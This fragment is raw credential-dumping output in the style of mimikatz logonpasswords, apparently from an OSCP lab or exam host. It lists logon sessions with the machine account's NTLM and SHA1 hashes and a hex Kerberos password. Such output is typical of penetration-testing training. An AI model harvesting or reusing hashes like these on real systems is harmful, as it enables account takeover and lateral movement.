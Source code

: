         ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 43168 (00000000:0000a8a0)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2/12/2025 1:43:40 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : MS02$
         * Domain   : OSCP
         * NTLM     : 843f3f0bd3810cbd744f86898807709f
         * SHA1     : a3c873015cd71fe0f9caf864bee9a476d19e1179
        tspkg :
        wdigest :
         * Username : MS02$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS02$
         * Domain   : oscp.exam
         * Password : ae 05 71 88 89 60 78 ef b4 8c e7 e5 d6 89 6a a7 46 6d 64 26 b7 b9 be 97 d5 03 4f 10 03 ce 25 e1 64 d5 1d e9 6f e0 a1 0e 87 ba 71 a9 2b dc 32 39 f4 95 a5 6e e9 03 13 66 a0 4f b4 2f 49 f3 33 05 2f e9 fa cd 58 c4 17 77 b4 cf 2d aa 04 51 71 ad a1 a1 4f 64 e2 c7 f5 4e 23 84 8f 27 8e ae 92 3f 95 e6 3f 63 72 e8 c6 e8 47 9b 9f e2 f4 25 c1 08 2c a9 5c c9 6d 1b 35 5d 70 46 a8 1c cf 24 56 18 6c 40 8e 4a c5 72 c3 bd f8 4b eb 63 b2 bc 25 c5 6e 25 06 4d 37 01 04 12 a7 68 6d ec c3 85 50 99 f2 72 be c8 30 7e d5 c5 3d bf 82 52 a0 c9 80 5c e6 29 84 3e 8f 1d b8 e7 db fa 43 3a 43 d1 04 35 fb 45 63 9d f5 eb 35 13 9a 54 7e 9a b8 41 11 08 29 99 ef 87 3b 74 f4 c2 ba 6b 2d f7 23 fe 00 40 f9 4c 4d 84 d0 ce 79 af 7c 30 8b 8a 77 63 b1 7c
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 43021 (00000000:0000a80d)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2/12/2025 1:43:40 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : MS02$
         * Domain   : OSCP
         * NTLM     : 843f3f0bd3810cbd744f86898807709f
         * SHA1     : a3c873015cd71fe0f9caf864bee9a476d19e1179
        tspkg :
        wdigest :
         * Username : MS02$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS02$
         * Domain   : oscp.exam
